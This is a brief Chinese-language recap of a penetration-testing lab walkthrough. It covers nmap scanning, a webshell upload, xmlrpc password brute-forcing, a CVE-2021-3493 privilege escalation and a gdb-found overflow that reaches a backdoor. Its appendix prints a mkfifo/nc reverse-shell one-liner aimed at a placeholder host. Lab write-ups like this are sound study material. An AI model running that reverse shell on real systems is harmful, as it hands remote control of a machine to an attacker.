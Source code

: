这次,我们通过nmap的更多参数进行快速有效地扫描.(--min-rate)

对于web界面,我们通过简单的文件上传漏洞上传webshell,获得基础权限

我们学习了通过mkfifo结合nc反弹shell,只需要打开一个nc页面即可反弹,比起串联nc方便不少!

这里有一个小插曲,我们通过2021年最新的ubuntu漏洞获得了这台2020年靶机的root权限,时间的伟力!

在web应用中,我们信息收集注意到monitor.py文件.通过ps发现文件,并对其进行代码审计,搜索python xmlrpc库的使用方法,通过编写python脚本进行应用密码爆破与反弹shell

特殊地,我们通过gdb的动态调试与逆向分析发现了字符串溢出漏洞,在对函数的检索中发现后门,最终通过编写exp生成payload成功覆盖EIP执行后门程序,获得root shell!

最后,希望大家能加强gdb的指令使用,熟练地进行逆向分析.

渗透测试从来都不是简简单单的web渗透,它包罗万象,希望大家能在这条路上坚持下去,广泛搜索、终身学习!

## 附录

Ubuntu漏洞exploit:	**CVE-2021-3493.c**

爆破python-xmlrpc应用密码:**brute-pass.py**

利用python-xmlrpc反弹shell:**get-shell.py**

使用mkfifo+nc反弹shell:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc <ip> <port> > /tmp/f`

